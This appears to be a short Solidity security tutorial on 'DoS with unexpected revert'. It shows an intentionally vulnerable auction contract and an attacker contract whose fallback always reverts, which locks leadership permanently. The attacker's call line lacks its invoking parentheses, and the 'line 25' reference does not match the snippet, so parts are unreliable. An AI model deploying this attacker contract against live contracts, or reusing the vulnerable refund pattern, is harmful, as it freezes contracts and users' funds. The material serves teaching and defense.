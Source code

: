 ## Call to the Unknown (DoS with unexpected revert)

```solidity
pragma solidity ^0.4.18;
// This Contract is Vulnerable for dods attack
contract CallToTheUnknown {
  // Highest bidder becomes the Leader. 
  // Vulnerable to DoS attack by an attacker contract which reverts all transactions to it.

    address currentLeader;
    uint highestBid;

    function() payable {
        require(msg.value > highestBid);
        require(currentLeader.send(highestBid)); // Refund the old leader, if it fails then revert, This will revert and it will fail becasue attacker contract have revert function in payable function
        currentLeader = msg.sender;
        highestBid = msg.value;
    }
}

contract Pwn {
  // call become leader 
  function becomeLeader(address _address, uint bidAmount) {
    _address.call.value(bidAmount);
  }
    
  // reverts anytime it receives ether, thus cancelling out the change of the leader and this will make the victim account under ddos attack
  function() payable {
    revert();
  }
}
```











## About the Contract 

In this case, an attacker’s contract could first claim leadership by sending enough ether to the insecure contract. Then, the transactions of another player who would attempt to claim leadership would throw due to line 25 in the above snippet.

Although a simple attack, this causes a permanent denial of service to the contract rendering it useless. This can be found in other ponzi scheme contracts that follow the same pattern.
